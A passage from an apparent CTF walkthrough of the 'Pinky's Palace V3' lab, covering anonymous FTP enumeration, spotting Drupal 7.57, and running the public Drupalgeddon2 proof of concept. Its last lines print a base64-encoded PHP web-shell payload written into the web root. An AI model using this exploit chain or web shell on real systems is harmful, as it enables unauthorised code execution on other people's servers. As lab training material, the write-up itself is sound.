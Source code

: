Three interesting ports open. First stop we'll go for the FTP port.  
  
```bash
root@kali:~# pftp 157.203.11.95  
Connected to 157.203.11.95.  
220 Pinky's FTP  
Name (157.203.11.95:root): anonymous  
331 Please specify the password.  
Password:  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> ls  
227 Entering Passive Mode (157,203,11,95,200,14).  
150 Here comes the directory listing.  
-rw-r--r-- 1 0 0 173 May 14 17:37 WELCOME  
226 Directory send OK.  
ftp> get WELCOME  
local: WELCOME remote: WELCOME  
227 Entering Passive Mode (157,203,11,95,65,134).  
150 Opening BINARY mode data connection for WELCOME (173 bytes).  
226 Transfer complete.  
173 bytes received in 0.00 secs (1.6499 MB/s)  
ftp> exit  
221 Goodbye.  
root@kali:~# cat WELCOME  
Welcome to Pinky's Palace V3  
  
Good Luck ;}  
  
I encourage you to be creative, try and stay away from metasploit and pre-made tools.  
You will learn much more this way!  
  
~Pinky  
```   

Next stop, let's check out the HTTP page.  ![](https://image.ibb.co/ixnFSd/pinkdrup.png)
 
So a basic Drupal installation.  If we remember back to February of this year, Drupal had a pretty nasty security bug known as [Drupalgeddon 2](https://www.drupal.org/sa-core-2018-002), which allowed full code execution on almost all Drupal installations.  It says it affects versions <7.58, so let's check `CHANGELOG.txt` to see what version this is.
```
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.
```
Noice!  We'll use [this PoC](https://github.com/dreadlocked/Drupalgeddon2)  to get a shell.

```bash
root@kali:~/panther/Drupalgeddon2# ruby drupalgeddon2.rb http://192.168.0.74:8000  
[*] --==[::#Drupalggedon2::]==--  
--------------------------------------------------------------------------------  
[i] Target : http://192.168.0.74:8000/  
--------------------------------------------------------------------------------  
[+] Found : http://192.168.0.74:8000/CHANGELOG.txt (HTTP Response: 200)  
[+] Drupal!: v7.57  
--------------------------------------------------------------------------------  
[*] Testing: Code Execution  
[i] Payload: echo VKSVGCTH  
[+] Result : VKSVGCTH  
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!  
--------------------------------------------------------------------------------  
[*] Testing: Writing To Web Root (./)  
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php  
```